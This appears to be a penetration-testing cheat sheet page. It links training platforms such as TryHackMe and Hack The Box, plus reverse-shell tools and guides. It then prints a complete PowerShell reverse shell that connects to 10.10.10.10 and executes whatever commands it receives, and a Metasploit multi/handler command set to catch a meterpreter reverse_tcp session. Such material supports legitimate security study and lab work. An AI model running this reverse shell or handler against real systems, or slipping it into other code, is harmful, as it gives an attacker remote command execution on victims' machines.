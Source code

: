### Training

- [TryHackMe](https://tryhackme.com/dashboard)
- [Hack The Box](https://app.hackthebox.com/home)
- [VulnHub](https://www.vulnhub.com/)
- [Root Me](https://www.root-me.org/?lang=en)
- [PentesterLab](https://pentesterlab.com/)

### Methodologies

#### Reverse Shell

- [Reverse Shell Generator](https://www.revshells.com/)
- [php-reverse-shell \| pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)
- [MSFvenom - Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/msfvenom/)
- [msfvenom \| OSCP Notes](https://notchxor.github.io/oscp-notes/8-cheatsheets/msfvenom/)
- [Shells · Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/reverse-shell.html)
- [Controlling your server with a reverse shell attack \| Snyk](https://snyk.io/blog/reverse-shell-attack/)
- [hoaxshell](https://github.com/t3l3machus/hoaxshell)
- [Villain](https://github.com/t3l3machus/Villain)
- [Offensive-Reverse-Shell-Cheat-Sheet](https://github.com/d4t4s3c/Offensive-Reverse-Shell-Cheat-Sheet)
- [Shell3er](https://github.com/yehia-mamdouh/Shell3er)

##### PowerShell

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex ". { $data } 2>&1" | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

##### Listening

Metasploit Framework multi/handler payload

```bash
msfconsole -q -x "use exploit/multi/handler;\
                          set PAYLOAD windows/meterpreter/reverse_tcp;\
                          set LHOST 192.168.119.128;\
                          set LPORT 443;\
                          run"
```


  [no]:  yes